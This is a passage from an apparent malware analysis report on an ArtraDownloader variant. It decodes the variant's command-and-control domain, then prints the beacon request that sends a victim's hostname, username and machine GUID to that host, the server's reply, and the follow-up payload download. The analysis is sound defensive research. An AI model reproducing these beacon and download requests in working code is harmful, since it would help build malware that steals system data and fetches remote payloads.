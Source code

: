>> print(decode(binascii.unhexlify("6E7F7C827B71817572847C7F79713E3F403B7B7281")))
>> aroundtheworld123[.]net
 
The malware proceeds to check to determine if the AVG security product is currently running on the system, however, this information does not appear to be used by ArtraDownloader. It is possible that this might have been a remnant of testing being performed by the malware author that was unintentionally left within the sample.
Various information about the system is collected by the malware and used in subsequent HTTP requests. After this information is collected, the following example HTTP GET request is performed:
GET ///healthne/accept.php?a=WIN-71FN1PE1AT8&b=WIN-71FN1PE1AT8&c=Windows%207%20Ultimate&d=Josh GrunzweigJosh Grunzweig103be7f4-bfb8-40fa-803c-e06bdf9d3bb6365536040965860&e= HTTP/1.1
Host: aroundtheworld123[.]net
Note that unlike other variants witnessed in this malware family, this particular variant does not obfuscate data being sent across the network. The following GET parameters are used within this request:



GET Variable
Description


a
Hostname


b
Computer name


c
Operating system version


d
Unique string containing two instances of the victim’s username, the machine’s GUID, as well as various information queried via a call to GetSystemInfo()


e
A variable that does not appear to be used within this particular sample



Table 5 GET Parameters Observed in ArtraDownloader Variant 3
An example response to this request can be seen below.
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 29
Date: Mon, 05 Nov 2018 19:22:56 GMT
Accept-Ranges: bytes
Server: LiteSpeed
Connection: Keep-Alive
 
Yes file58368[regdl]35No file
The response to this request is parsed, specifically attempting to identify the string Yes file. Should this string be present, the data between [ and ] is parsed. This data is used in a subsequent HTTP request made that will download a file from the remote server, as seen below:
GET /healthne/healthne/regdl HTTP/1.0
Host: aroundtheworld123[.]net
 